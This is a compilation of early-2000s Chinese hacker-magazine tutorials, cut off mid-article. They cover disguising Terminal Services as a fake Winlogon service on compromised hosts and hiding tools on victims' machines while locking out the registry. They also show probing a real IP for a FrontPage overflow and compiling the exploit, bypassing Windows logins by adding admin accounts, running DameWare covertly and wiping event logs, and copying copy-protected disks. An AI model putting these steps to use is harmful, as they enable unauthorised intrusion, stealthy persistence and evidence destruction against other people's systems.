INSTSRV <service_name> <exe_location> [REMOVE]
[-a <AccountName>|[-p <AccountPassword>]]

Install service example
INSTSRV MyService c:\MyDir\DiskService.exe
OR
INSTSRV MyService c:\mailsrv\mailsrv.exe -a MYDOMAIN\joebob -p foo

Remove service example
```

```text
INSTSRV MyService REMOVE
```

看明白了吗？我们先 `instsrv TermService REMOVE`，然后用下面命令给它再装上终端服务（图4）：

`instsrv Winlogon c:\winnt\system32\termsrv.exe`


嗯嗯！只要 `c:\winnt\system32\termsrv.exe` 存在，就可给它装上一个叫 Winlogon 的服务。到服务管理看看（图5），呵呵！已经搞定了，而且是自动运行的。当然我们可再给它加上描述，怎么加就即兴发挥了，反正做到以假乱真就可以了。


> 注意：这很重要，服务名和描述要尽量伪装得自然。

### 3. 两个小问题

- 1. 用户登录名：终端登录时会出现类似 Win2k 本地登录对话框，但终端服务不会记录上次登录用户名，显示上次用户名通常是 Win2k 本地登录缓存造成的。  
- 2. 日志问题：一般终端服务本身不会留下太多实质日志；若连接异常断开，系统可能记录错误日志并带有 IP 信息，退出时建议“开始→关机→断开”以降低风险。

按上面的方法做完，基本上已经能躲过大部分网管的检测了。综上所述，最重要的是服务名的选择与伪装。

### 连肉鸡也隐藏文件一法

很多时候我们要在肉鸡中隐藏我们的文件，如果对方看到你放在他电脑中的黑客软件，他不怀疑才怪！那么该怎样把文件藏起来呢？今天我们就谈谈这个问题。

一个在 Windows 3.x 时代的文件在 Win98 下依然存在，把所有欲隐藏的文件、程序等尽可放入。这样，在 Windows 下就看不到了，并且清空回收站也依然存在。

### 思路

我们可将文件隐藏到特殊系统文件中，如字体目录 fonts 和回收站等。利用大家对回收站的疏忽来隐藏文件。当然，要略施手段才行。我们要用到的工具是 Windows 98 自带的文件管理器——winfile.exe。

### 具体步骤

在“开始”菜单的“运行”中输入 `winfile.exe`，打开文件管理器（图1）。点击“窗口”菜单下的“新窗口→垂直平铺”，然后再选择“查看”菜单下的“按文件类型”，在弹出的“按文件类型”对话框的“显示/隐藏系统文件”前打上“√”。

藏文件的文件夹中，按住 Ctrl 键的同时拖入 recycled（这就是回收站）文件夹。这样做的目的是将文件复制到回收站；如果你想移动文件夹到回收站，直接拖动即可。这样，无论是在“我的电脑”还是“资源管理器”中，或者在回收站里，都无法看到这个文件了。


如果你隐藏的是可执行文件，假设隐藏在 `C:\recycled` 下，当你要使用该程序时，可以在“开始”菜单的“运行”中输入 `C:\recycled\你想执行的可执行文件` 即可（注：不带引号）。谁也不会想到我们的回收站中也另有乾坤！

### 进阶

上面这个方法有个缺点，即对方可通过运行文件管理器 `winfile.exe`，然后选中回收站来发现你隐藏的文件。虽然知道这招的人不多，但为了防止万一，我们应该做得更好些。下面介绍的进阶技巧，会让你的文件更隐蔽！

在“开始”菜单的“运行”中输入 `regedit`，打开注册表编辑器，展开到 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\explorer\Advanced\Folder\Hidden\SHOWALL` 下，检查是否有 DWORD 值“CheckedValue”，如果没有就新建，将其键值改为 0。关闭 Regedit，回到桌面，按 F5 刷新，进入任意一个文件夹，点击“查看”菜单下的“文件夹选项”，在弹出的“文件夹选项”对话框中点击“查看”标签，在该窗口中找到“文件和文件夹”下的“隐藏文件”，你会发现“不显示隐藏文件或系统文件”和“显示所有文件”前的选项框中都选中了（图2）。此时，就算你只想选中“显示所有文件”也无法办到了。


再打开文件管理器，即便是选中“查看→按文件类型→显示/隐藏系统文件”，也无法看到回收站了。既然连回收站都无法看到，用文件管理器又怎么能发现我们隐藏的文件呢？

如果你还不相信这种效果，可以在“资源管理器”和“我的电脑”中也试试看，还是无法看到回收站！如果你能给注册表加锁使人无法修改 DWORD 值“CheckedValue”，则会更安全。方法是：运行 regedit，展开注册表的 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\policies` 分支，点击鼠标右键，选“新建→主键”，将键值命名为“system”，在该主键下新建 DWORD 值 `DisableRegistryTools`，并设键值为 1 即可。这样，当有人运行注册表编辑器时，就会出现“注册表编辑已被管理员所禁止”的对话框（图3），由此达到限制别人使用注册表编辑器的目的。

为防止别人用 reg 文件解锁注册表，还应将 reg 文件打开方式关联到记事本程序。修改注册表，在 `HKEY_LOCAL_MACHINE\Software\CLASSES\.reg` 右边的窗口中更改“默认”值为“txtfile”即可。

现在可以说是很安全了，在 Windows 下几乎是无懈可击。但还有个缺陷，即我们没有考虑到 DOS 模式，如果别人进入 DOS，然后进入 `C:\recycled` 下，就会发现我们隐藏的文件或文件夹。而且，他还可把回收站里的 `desktop.ini` 文件删除（在 DOS 下，用 `CD recycled` 命令进入回收站，然后输入 `del desktop.ini` 即可删除该文件），这样，在 Windows 下的隐藏也会告失败！所以，我们要禁止切换到 DOS 模式才行。


禁止 DOS 实模式还是要用到注册表“大法”，展开注册表到 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\WinOldApp` 下，新建 DWORD 值 `NoRealMode`，将其键值设为 1 即可。

#### 总结

- 1. 用文件管理器 `winfile.exe` 将文件放入回收站中；
- 2. 更改注册表，使系统的“查看→文件夹选项”中的“显示所有文件”失效。这样，在 Windows 下就无法看到回收站；
- 3. 更改注册表，禁止 DOS 实模式；
- 4. 在注册表中更改 reg 文件打开方式；
- 5. 给注册表加锁，使别人无法更改注册表中我们隐藏文件时所用到的键值；
- 6. 把 `scanreg.exe`、`scanregw.exe` 这两个文件改名隐藏起来，使对方无法恢复注册表（用 `scanreg/restore` 命令可恢复注册表到最近五次备份的任意一次）。

如果你要使用注册表编辑器，可用记事本编辑如下内容的 vbs 文件，使用时双击即可（“'”以后部分为笔者添加的注释）：

```vb
DIM WSHSET
WSH = WSCRIPT.CreateObject("WSCRIPT.SHELL")
' 激活 WScript.Shell 对象
WSH.POPUP("为您解开注册表！")
' 显示弹出信息“为您解开注册表！”
WSH.Regwrite "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System\DisableRegistryTools", 0, "REG_DWORD"
' 对注册表解锁
WSH.POPUP("注册表解锁成功！")
' 显示弹出信息“注册表解锁成功！”
```


双击该 vbs 文件，会先弹出一个窗口显示“为您解开注册表！”（图4）。点击“确定”后，会弹出另外一个对话框“注册表解锁成功！”（图5），再运行注册表编辑器 regedit，成功了！你可把该 VBS 文件当成一把解锁钥匙放在隐藏的地方，需要时再使用。至此大功告成！如果你感兴趣的话，不妨也试试看，没准能给你一个惊喜呢！

我们的电脑不能让人动，这是没有道理的，因为我们不能有一颗自私的心。为了安全，我们开始了隐藏的探索。但我今天却要告诉你，隐藏是危险的。我们个人用户没有什么机密，有的只是隐私，因此我们一般不选特别专业的软件来加密，选择了隐藏……

## 隐藏存在危险的原因

说隐藏危险绝不是信口开河，有两方面原因。原因一：我们有了隐藏的文件，同时也就有了勾引别人的东西……原因二：我们经常使用着带有漏洞的隐藏方法……下面笔者就将发现的小小漏洞一一报告大家。

## 几种隐藏方法及其破解之道

### 1. script 隐藏方法

下面先简单说一个被 N 处传播了的方法——利用 script 的隐藏方法……具体方法是利用自定义文件夹……（注：本人用的是 Win2000 系统）。

> **注意**：要改文件夹模板，选择“超级链接模板”，会得到一个 HTML 文件，在其中加入下面的 script 代码即可……

```html
<script language="JavaScript">
  var pass = prompt("私人文件，你还是不要动比较好！","");
  if(pass!="123")
    window.location="...";
</script>
```

> **注意**：
> 1) 这里代码中的 `123` 是你设定的密码；  
> 2) `window.location=""` 后面的 URL 可按需设置（密码不对时返回地址）。

> **破解之道**：看上去是个简单隐藏法，但很容易被发现，破解你的加密控制。

方法一：在命令提示符下进入隐藏目录，一个 `copy` 或 `ren` 命令就能把你的秘密给解决了……例如：

```bat
attrib -s -h
ren desktop.ini 1.ini
```

现在再回到你的加密文件夹“1”看看，应该不需要密码了吧……很多隐藏方法都是它在搞小动作。

方法二：在资源管理器中解决。这种隐藏方法不能隐藏下级目录……在文件夹中找到 `folder`（`folder.htt` 模板），用记事本打开，你的密码就这样终结了。

### 2. 回收站系列隐藏方法

回收站系列也是发挥比较大的一种隐藏方法……还鼓励我们做两个批处理文件。

| 一个是用来隐藏的 | 一个是用来恢复的 |
|---|---|
| `@echo off`<br>`C:`<br>`cd recycled`<br>`attrib -s -h`<br>`ren desktop.ini 2.ini` | `@echo off`<br>`C:`<br>`cd recycled`<br>`ren 2.ini desktop.ini`<br>`attrib +s +h` |

> **破解之道**：其实不用改动 `desktop.ini` 也能解除隐藏，在命令提示符下看到被隐藏文件后，`copy` 到其他地方即可。

我看到这个鼓励就吓了一跳……右击批处理文件选择“编辑”，一切都在别人眼底下了。批处理是好用，但绝不是处处可用。一般的方法要用工具 BAT2COM 和 COM2EXE，把批处理文件变为 com 文件或者 exe 文件。

为告诉大家这个方法的不好之处，我给大家讲个亲身经历。那是一个偶然的机会，我通过网络邻居看到，一个计算机的某个驱动器下竟然有两个回收站，不用问，肯定有个是假回收站。尽管那时我并不知道这位高人是用什么方法做了两个回收站，但直觉告诉我肯定是隐藏着一些东西。因为看上去都是空空的回收站，一个大小为零，一个却是几十兆。由于那时我很菜，不会通过网络来操作他的回收站，于是把他那个假回收站给拷回来（因为回收站其实就是一个文件夹），在我的爱机上就完全能操作了。按上面的方法一看，好东西呀！我说这个经历是想和大家说隐藏方法可能是不同的，比如利用系统文件夹（如 font 文件夹、控制面板文件夹等），但破解方法却可能是一样的。

一定要选择第二种方案，不过即使你这样做了，也不能说安全了，因为鬼才知道它还会藏在什么地方。

其实和这个隐藏方法相同的就是改注册表，先在注册表中找到下面的键值：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer
```

增加一个双字节的键值：如果你添加的是 `"NoRecentDocsMenu"=dword:00000001`，那么你将隐藏文档（Documents）菜单；如果你添加的是 `"ClearRecentDocsOnExit"=dword:00000001`，那么在你每次退出系统时，自动清除文档菜单中的历史记录。关于这两种改法的区别，我想我已经说得很明白了。

### 3. 注册表隐藏方法

还有一大类的隐藏方法是改动注册表。比如我们设置好隐藏属性，设法使那个“文件夹选项”消失，具体做法是找到注册表的如下位置：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer
```

在右边窗口中点右键，选择“新建→DWORD 值”，命名为“nofolderoption”，并将其设为 0。这样做了，使浏览器下的“Internet 选项”也没了。当别人看到你没有这两个东西时，给你改回来不是什么难事吧！

### 4. 改扩展名隐藏方法

还有一种方法是改扩展名。Win2000/XP 默认扩展名是不显示的，我们可通过选择“工具→文件夹选项→查看”，在“高级”设置中把“隐藏已知文件的扩展名”选项去掉，以显示和隐藏扩展名。利用改扩展名来隐藏文件，这是利用改变默认文件的关联来使得文件不能正常打开。看上去是个不错的方法，但我还想讲一个经历来给大家听……

### 5. 公共漏洞

公共的漏洞就是大家可通过最近打开的文档来访问你的文件。公共漏洞（没有那么绝对）隐藏后的文件你是一定会去看的，而你一旦看过这个文件后，至少有两个地方可暴露你的隐藏文件。一个是最近打开的文档；另一个是浏览器历史记录中的“我的电脑”。当别人看到你的隐藏文件后，是可以通过这两个地方直接访问你的文件的，而不需要去找到你的隐藏文件目录。简单解决方案是：用组策略。

在运行菜单中键入 `gpedit.msc`，找到“用户配置→管理模板→任务栏和【开始】菜单”。这里有两个方法可隐藏最近打开的文件：一个是“从开始菜单上删除文档菜单”；另一个是“不要保留最近打开文档的记录”。如果你选择了第一种，也许别人不能从开始菜单中的文档中得到你最近打开的文档，但如果他进入系统安装盘下的 `Documents and Settings\user\Recent` 文件夹，那么一切就暴露了。

> 注意：`"NoRecentDocsMenu"=dword:00000001` 表示在注册表窗口右侧空白处点右键，选择“新建→DWORD 值”，命名为 NoRecentDocsMenu，并设主值为 1；下面的 `"ClearRecentDocsOnExit"=dword:00000000` 做同类设置。

可我想告诉你的是，现在很少有人不会改注册表了。看到这儿，也许你已经不想再看下去了。那我现在就告诉你一个可以隐藏的方法，因为微软为我们想出来的，所以估计不会有什么问题，前提是你的文件格式是 NTFS，操作系统是 Win2000 的任何版本或 XP Professional，微软把此叫 EFS（encrypting file system）。

```
convert X: /fs:ntfs
```

如果你的文件系统不是 NTFS，在命令提示符下转换即可。转换后右击要隐藏的文件夹，选择“属性→高级→加密内容以便保护数据”。其实你也可通过命令提示符来实现这个过程，具体用到的命令是 `cipher`，你可在命令提示符下敲入 `cipher /?` 查看使用方法。

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced

新建 DWORD 值："EncryptionContextMenu" = 1
```

这种加密是透明加密，也就是说当加密用户登录后，他不会感受到密码的存在；而当以其他身份登录时，是可见而不可得的。即使有人拿你的硬盘复制了这个文件，到他的系统上也看不见你的内容。然后以那个用户登录，加密你要加密的文件，我们把这个用户叫做加密用户……如果有一天你把加密用户的登录密码给忘了，那么就很难再看到被这个用户加密后的文件了。

这儿给你提个醒，即使你删除这个加密用户，再添加一个相同用户名的用户也是不行的……我就不介绍了，感兴趣朋友可自己查资料看看。

#### 总结

越是安全的地方越是不安全……安全学习的过程不单是各种技巧的堆积过程，而是对系统知识的熟悉和了解过程。

（本文中所提到的软件 BAT2COM 和 COM2EXE 在光盘中有收录）

说起 x-scan2.3，恐怕没有人不知道吧！2.3 是目前 x-scan 的最新版本……于是我想到了 x-scan2.3。

## x-scan2.3 的 CGI 列表手工升级

我们打开 x-scan2.3，选择“工具”下的“CGI 列表维护”（图1），这就是 x-scan2.3 包括的 CGI 列表，文件为 `\dat\cgi.lst`。如果我们可以打开这个文件手工添加的话，岂不是可以实现手工的升级？直觉告诉我，这个文件应当是以文本方式保存的。

让我们到 `\dat` 目录下去看一看，乍一看到 `cgi.lst` 文件，有点儿头疼，因为图标不像是可以直接打开的；不过要试了之后才能知道。双击，果然没有任何反应，不管它，强行打开。在 `cgi.lst` 的“打开方式”中直接选择“记事本”（图2）。让人高兴的是，`cgi.lst` 文件果然成功地打开了（图3）。

下面的事情就好办了，我将 `fp30reg.dll/_vti_bin/_vti_aut/fp30reg.dll` 这句添加到了文件中 Windows 的 CGI 列表，位置可自己选择（图4）。

这样，x-scan2.3 就具备了对 `fp30reg.dll` 的探测能力。我们回到 x-scan2.3，重新打开“工具”下的“CGI 列表维护”看一下（图5），刚才添加的已经有了，连“重新载入”都不需要。

不过，为了提高 x-scan2.3 对于 `fp30reg.dll` 这个文件的扫描速度，我重新修改了 `cgi.lst` 文件，将其他 CGI 列表全删除了（图6）。这样，在进行 CGI 扫描时，实际上只扫描这一个，速度当然要快了（图7）。

对于 FrontPage 远程溢出漏洞的 CGI 判断请求我不是太清楚，因此，只能让 x-scan2.3 做到检测目标电脑中是否存在该 DLL 文件，具体探测我们可以用手工进行。

```bash
G:\hacker>nc -vv 61.177.214.88 80
61.177.214.88: inverse host lookup failed: h_errno 11004
(UNKNOWN)[61.177.214.88] 80 (http) open

GET /_vti_bin/_vti_aut/fp30reg.dll HTTP/1.0

HTTP/1.1 501 Not Implemented
Server: Microsoft-IIS/5.0
Date: Mon, 14 Apr 2003 15:14:48 GMT
X-Virus: 6
Content-Type: text/html
```

出现“HTTP/1.1 501 Not Implemented”这一句就表明对方极有可能存在该漏洞，如果出现“HTTP/1.1 500 Server Error”和“HTTP/1.1 404 Object Not Found”就别指望了（图8）。

对于相应的溢出程序，早在 2001 年就已在网上公布了，我在网上找了好几天，才从一国外站点上找到。这是一个 for Unix/Linux 的源程序，必须先在 Unix/Linux 环境下进行编译，然后才能使用。

```bash
[root@localhost source]# gcc -o fpse2000ex fpse2000ex.c
```

其实，大多数源程序我们都可使用这样的编译格式（图9）。再让我们来看看这个程序的使用（图10）。

```bash
[root@localhost source]# ./fpse2000ex
Proof of concept code for fp30reg.dll overflow bug by NSFOCUS Security

Usage: ./fpse2000ex victim [port]
```

说实在的，我扫描了一万台电脑，可最终也没有成功，毕竟是一个陈年老漏洞了，更何况现在许多 Win2000 都打了 SP。本来我很想将 WebDAV 及 Windows RPC Locator 这两个漏洞也加进来的，只是一直不知道该提交什么样的 CGI 列表请求，只好作罢。

事实上，x-scan2.3 的目录探测我们也可使用类似的方法来升级，但最终如何在效率及速度间寻求一种平衡就全由你自己决定了。本文写出来，只是抛砖引玉，希望大家能有更好的方法和我一起讨论。

本文的目的并不是让你去找 WEBDAV 及 RPC LOCATOR 漏洞的提交请求，只是告诉你一个可扩充 CGI 漏洞扫描列表的方法。这样，以后如果还有新的漏洞的话，我们就可自己手工添加了。

A 盘大家应该都知道，是国产杀毒软件所附带的一个反破解工具，在安装时必须插入 A 盘才可正确完成安装程序，用以验证用户的合法性。但由于 A 盘经过了加密，不可以像普通软盘那样，用 Windows 的软盘复制功能进行备份，但它却又非常容易损坏。那么，我们有没有办法进行 A 盘的备份呢？

答案当然是肯定的，其实加密的 A 盘只是对软盘中的某些磁道进行特殊的低级格式化。可能大家知道一个叫做 HTH 的软件，这个软件的确能复制加密过的 A 盘，但笔者试用后觉得，这个软件操作起来很不方便。笔者在下载 HTH 的同时，发现了一个叫做 kingcopy2000 的软件，它的作用也是复制加密过的软盘，但使用起来极其简单，非常适合菜鸟级朋友使用，嘿嘿！

首先下载 kingcopy2000 这个软件，大家可以在光盘中找到。文件很小，才 367KB。下载完后，你会发现这其实是一个 WinZip 的自解压程序，解压到硬盘。在这里我们以 `C:\KC2000` 为例（以后使用过程皆以此为例）。

这个软件必须在 DOS 环境下才能运行，笔者经过试用，即使在 Windows98 的 DOS 模式下一样可以使用。但有点破解经验的人都知道，一般这种软件只有在纯 DOS 环境下才可稳定破解，不像 Windows 里有那么多错误。所以笔者强烈推荐在纯 DOS 下使用此软件。

用启动盘启动到纯 DOS 下，放入 A 盘，依次输入“c:”“cd kc2000”“cp2000.exe”，然后出现如图所示的主界面。按向上方向键，选择“Reading disk”后回车，这时在窗口里会显示读入加密盘的信息，也就是 A 盘。等把全部信息提示读完后，把源盘拿出来，放入一张空白软盘，选择“Write to disk”，从窗口里就会看见 kingcopy2000 正把刚才缓冲到硬盘上的内容向目标盘写入数据。等到屏幕上的 f 变成 e 时，说明大功告成，也就是已经制作了一张加密盘。嘿嘿，比 HTH 简单不少吧！

如果你没有源加密盘，而是从网上下载的破解文件，只要它是使用 kingcopy2000 制作的（后缀名为 `.kc`），就可把它复制到软盘上，从而 DIY 一张 A 盘。具体方法：在主界面里，选择“Another options→Load from file”输入你的破解文件路径，按回车载入，然后插入一张软盘，按照上面的方法制作即可。

kingcopy2000 不仅可做 A 盘，只要加密过的数据都可用它来备份，怎么样，够强大吧！

### webdavscan 的另类作用

Sagi

提起 webdavscan 这个程序，相信许多朋友都不陌生。webdavscan 除了可扫描 webdav 漏洞外，还可用来扫描别的信息，显然许多朋友忽略了这点。因此有了本文的诞生。

- 1. **扫描 webdav 漏洞，Win2000 系统**  
  这个就没有必要详细说了吧！“Microsoft-IIS/5.0”，我想对于刚接触网络安全技术的新手来说，也能判断出这是 Win2000 系统，以及是否提供了 webdav 服务，如图1。

- 2. **寻找 WinXP 系统**  
  WinXP 系统自带 IIS6.0，如果我们扫描到图2所示的 “Microsoft-IIS/6.0”，就可判断对方使用的可能是 WinXP 系统。当然，我们也可通过扫描 5000 端口，再结合其他端口来扫描 WinXP 系统。

- 3. **扫描 WinNT 系统**  
  WinNT 可算是老爷级的系统了。不过，即使如此，在 Internet 上仍有相当数量的服务器使用的是 WinNT 系统平台。在 WinNT 系统中使用的大多为 IIS4.0。因此，我们可以通过这点来寻找 WinNT 系统，见图3中的 “Microsoft-IIS/4.0”。

- 4. **寻找基于 Windows 系统平台的 Apache 服务器**  
  在 Unix/Linux 系统中，架构 WWW 服务器所选用的大多为 Apache 服务器组件。同样，Apache 也有 Windows 版本，在 Internet 上有许多 Windows 系统也都选用了 Apache 服务器组件来架构他们的 WWW 服务器。通过 webdavscan 我们可轻松找到这样的系统，图3中的 “Apache/1.3.22 (Win32)”、“Apache/1.3.14 (Win32) PHP/4.0.6” 等就是。

- 5. **寻找 Linux 系统**  
  我不知道其他朋友是如何扫描 Linux 系统的，也许使用的是端口。有时，我也是利用端口，不过现在又多了一样，那就是使用 webdavscan。如图4中的 “Apache/1.3.20 Sun Cobalt (Unix) PHP/4.0.6 mod_auth_pam_ex...”、“Apache/1.3.22 (Unix).(Red-hat/Linux) mod_ssl/2.8.5 OpenS...” 等，我们可依此大致判断对方使用的是 Cobalt Linux 及 RedHat Linux 等。

- 6. **寻找 Unix 系统**  
  对于其他的一些 Unix 版本，webdavscan 并不能详细地检测出来，如 SunOS、BSD、HP-UX、AIX 等。大家请查看图5中的 “Apache/1.3.27 (Unix) PHP/4.3.1”、“Apache/1.3.19 (Unix)”、“Apache/1.3.27 (Unix) mod_ssl/2.8.12 OpenSSL/0.9.6h...” 通过这些，我们并不能辨别对方的具体版本，但能判断对方使用的是 Unix/Linux 系统，而绝不是 Windows 系统。

除了以上提到的外，webdavscan 还可用来寻找别的有用信息，如某一特定版本的 Apache 服务器，或一些不常使用的架构 WWW 服务的组件等。

## Windows系统各种密码忘了怎么办？

陈海军

作为网管，为了维护计算机的安全运行，必须要设定各种密码。但密码太多，总有忘记的时候。为给广大网管减轻负担，本人结合自身经验，也参考了一些资料，汇聚了当遇机房或网吧管理中忘记各种密码后最简洁实用的解决方案，希望对广大网管有所帮助。

### 1. 忘记共享密码

如果是在 Win98 下，则可以到我们的光盘中找到 netpass。本软件利用了 Win95/98 的“速度破解器漏洞”，如图1。键入远程主机的 IP 地址和共享文件或磁盘，数秒之内即可解开局域网上主机共享文件夹密码。netpass 的优点是可实现远程破解，但在 Windows 2000/XP 中，共享的问题得到了很好的解决，不存在这一漏洞，只能通过重新设置。


图1

### 2. 忘记屏幕保护、BIOS、共享（本地）、IE 分级密码、Win98 用户密码、Access、查看帐号密码，以及一些常用软件（如优化大师等）的密码

如果系统没有设置 SYSTEM（超级用户）密码，则可进入系统后，下载一个非常实用的小工具——AnyPassword（光盘中有收录）。本程序为多种密码获取的集合，可恢复多种密码，使用十分简单（图2），只要轻轻点击即可。


图2

> **注意**：有些所谓的屏幕保护密码其实是系统启动时自动加载的程序建立起来而已，重新安装或进入安全模式通常可以绕过。对涉及系统安全的软件密码，建议先备份数据再进行清除或重置操作。

### 3. 忘记 SYSTEM（超级用户）密码

如果设置了 SYSTEM 密码，忘记密码后根本不能启动计算机，我们就无法通过软件来解决密码遗忘的问题了。此时，唯一的方法就是打开机箱，给 CMOS 放电，清除 CMOS 中的所有内容（当然也包括密码），然后重新开机进行设置。另外，有些主板设置了 CMOS 密码清除跳线，将该跳线短接也可达到同样的目的（详情参见主板说明）。

### 4. 忘记万象幻境或方竹的设置密码

我们可下载专门的破解工具——万象幻境网管专家密码破解器、方竹密码破解器（光盘中有收录）。如图3所示，万象幻境网管专家密码破解器前显示退出密码、运行设置程序密码、计算机解锁密码、查看历史记录密码、Internet 属性密码。使用十分简单，轻轻点击即可。


图3

### 5. 忘记还原精灵密码

有两种解决方案：第一是用还原精灵密码获取软件（光盘中有收录），本软件使用方法很简单，只要打开还原精灵的“更改密码”窗口或“检查管理密码”窗口，不用输入任何密码，点击“还原精灵密码获取软件”的“读取密码”按钮（图4），就会自动从还原精灵的内存中读取密码。这个程序只用于测试还原精灵内存中存放明文密码的漏洞。


图4


图5

第二种方法是彻底清除还原精灵，我们要用到的软件是还原精灵清除器（光盘中有收录）。主要有以下功能：把系统中的硬盘 MBR 都清除为正常的 MBR；当然，分区是不会被清除的；使用一些技术来绕过还原精灵自身的保护。执行本程序后，需要重新安装还原精灵；支持 Win9x/NT/2000/XP；程序运行时关闭当前所有窗口，因为还原精灵清除器一旦执行，系统马上会重启你的电脑，你将没有机会终止它。

还原精灵清除器的操作十分简单（图5），直接点击“清除”即可。

### 6. 忘记硬盘还原卡密码

我们可试试默认密码，远志默认密码为：12345678；小哨兵默认密码为：manager。若已经把默认密码修改了，也有两种方案。第一是到所用还原卡公司网站下载硬盘还原卡清除程序，下载后先到主板插槽上拔下还原卡，再运行清除程序，重启后会卸载还原卡。第二种方案是在 MS-DOS 下（或重启按 F8 进入纯 DOS）输入命令进行调试。

```bash
C:\Windows>debug
-s f000:0 ffff 80 fa 80
```


之后找到形如“f000:****”且第一个 * 大于 8 的数并记下。输入 q 退出，再次进入 DEBUG，输入 `-e 0:4c`，把该地址按反序写入（如 f000:f492 写为 `-e 0:4c 92 f4 00 f0`）。成功时会听到提示音，再用 `-q` 退出。然后用 Win 命令进入 Win98 开放模式。另有些还原卡技术严密，此法可能失效。

### 7. 忘记 Win2000/XP 系统登录密码

遇到该情况不一定要重装系统，也不必拆硬盘找密码。可利用 Windows 2000 的一个小漏洞来解决。到底怎么操作？请看：

- 在 Windows 2000 启动后，按提示 `Alt + Ctrl + Del` 进入登录界面；切换输入法后，在输入法状态条中依次选择“帮助”→“输入法入门”，窗口顶部可见按钮，关键在“选项”按钮。
- 若系统未装 Windows 2000 ServicePack1 或 IE5.5，可在“帮助”中选“操作指南”，再由“跳至 URL”进入系统路径（如 `C:\WinNT\system32`），从而进入 system32 目录。
- 在 system32 找到 `net.exe`，创建其快捷方式，并把快捷方式目标改为：`C:\WinNT\system32\net.exe user one 12345678 /ADD`，双击执行以添加 one 用户。
- 再把 one 用户加入 Administrators 组：`C:\WinNT\system32\net.exe LOCALGROUP Administrators one /ADD`。
- 用 one 用户登录并修改原用户密码，事后删除 one 用户。

在 WinXP 下，net.exe 的执行与 Win2000 略有不同，主要有两方面。

- 第一方面：
  - 重启后按 F8，选“带命令行的安全模式”；
  - 出现系统超级用户 Administrator 与本地用户菜单，进入命令行；
  - 使用命令修改密码：`net user zhengkai 123456 /add`（文中亦给出新增用户示例：`net user zhangyong 123456 /add`，再用 `net localgroup administrators zhangyong /add` 提权）；
  - 重启后即可用新口令登录。
- 第二方面：安装 Windows XP 时通常先以 `Administrator` 登录并创建新账户，登录界面常显示新账户名而非 administrator，但 administrator 账号仍存在且密码可能为空。若忘记登录密码，在登录界面按 `Ctrl+Alt` 后连按两次 `Del`，可切换到经典登录框；在用户名处输入 administrator（或 admnistrator 的文中写法）并尝试空密码登录，然后再修改目标用户（如 zhengkai）口令。

以上内容主要针对 Windows 系统基础密码恢复；常用软件密码恢复可借助网络上的密码恢复工具，此处不再赘述。

> 声明：本文仅为方便广大网管、机房和网吧管理之用，任何人若将其用于非法目的，概与作者及本刊无关。


### 使用远程控制软件 DameWare 的一点心得

近墨者

记得当初看了老鸟们写的关于 DameWare NT Utilities 的文章后，立即从网上 Down 了一个，拿出珍藏的有管理员弱口令的主机，填上对方 IP、用户名及密码，依葫芦画瓢，点 connect 就和对方建立了连接。

只可惜本人的 E 文太差，无法理解 E 文版软件中的各项设置，所以就一路 OK，按软件的默认设置连到对方，但连接后却发现对方右下角任务栏中出现了图标，同时还有连接提示窗口（图1），提示有用户通过 Administrator 用户名连接。那一刻的感觉简直糟了，手忙脚乱地把提示窗关掉，想来对方也满腹疑问。


后来查阅介绍才知道，在连接前应在软件设置中关闭“启用任务栏图标”“连接时通知”等选项，并在“复制配置文件 DWRCS.ini”前打勾。这样连接后就不会在对方显示图标和提示窗口。


原来在对方机器上显示图标及提示窗口的出现，都与这个“DWRCS.INI”文件有关。既然如此，那我们就修改其中的一些选项，让图标消失。

打开 DameWare 程序所在目录，找到“DWRCS.INI”，将“Notify On New Connection=Yes”改为“No”，将“Show SysTray Icon=Yes”也改为“No”。

再打开本地 CMD，用 IPC$ 与对方主机建立连接，把改好的 DWRCS.ini 复制到对方 admin$\system32（或 WINNT/WINDOWS）目录中；若提示覆盖原文件，输入“Y”。


下面要做的是结束对方主机中的 DameWare 服务。该程序以系统服务方式启动，因此结束服务即可。可通过“计算机管理”连接到目标主机后，在“服务和应用程序”中找到 DameWare 服务并停止。


在“连接到另一台计算机”中输入目标 IP，随后在服务列表找到“DameWare”并停止（图6）。然后重新在本机 DameWare 主程序中连接目标，若提示服务未启动可选择启动（图7、图8）。


经过一段时间等待，对方桌面再次出现时（图9），已没有连接提示窗口，也没有软件图标，之后再连接就不易被察觉。


### 傻瓜黑客

老鸟们写的关于日志分析的文章，在对方主机的应用程序日志中可早已记录下了 DameWare 这个程序的连接信息，并且很详细哦！

按照刚才的方式连到对方的计算机管理程序，依次打开“系统工具→事件查看器→应用程序”，在右侧窗口显示的就是系统中应用程序的日志记录。在来源项中找到名为“DWMRCS”的记录，双击打开（图10），里面记录的全是 DameWare 的连接信息，其中包括了同这个主机建立连接的远程主机名、用户名及 IP 地址等重要信息。


咋办！当然是清理日志记录了，在“应用程序”上点鼠标右键，选择“清除所有事件”（图11），弹出一个询问窗口，询问在清除前是否保存“应用程序”，当然点“否”了，这样就删除掉了对方主机中的应用程序日志记录。也可用小榕的 elsave 工具软件清除日志。


以上就是本人在使用 DameWare 中的一点心得体会，不足之处，还请各位朋友加以指正！

## 对操作系统识别的基本方法

对操作系统的认识，对于每个从事计算机行业的人来说都非常重要。要成为一名黑客更是要对操作系统有深入、深刻的认识。下面笔者就和大家一起来探讨这方面的问题。

- 判断入侵对象的操作系统；
- 扫描端口，判断开放了哪些服务（这两步有可能同时进行）；
- 根据操作系统和所开放的服务选择入侵方法，通常有“溢出”和“弱口令猜测”两种；
- 获得系统的最高权力；
- 安放后门、清除日志走人（也许有擦盘走人的）。

由上面可以知道，在整个过程中，对操作系统类型的判断是基本也是很关键的一步。如果你连对方的操作系统是什么都不清楚，要想入侵根本无从谈起。

了解操作系统的原因是为了了解系统内存的工作状态，了解它是以什么方式、基于什么样的技术来控制内存，以及怎样来处理输入与输出数据。正因为系统并不完美，才会存在各种弱点与不足之处，黑客便利用这些弱点与错误进行入侵。作为一般黑客，我们只要善于使用现成的入侵工具，就可达到入侵目的，但不同系统原理不同，工具也需要对应系统。

### 一、用 ping 来识别操作系统

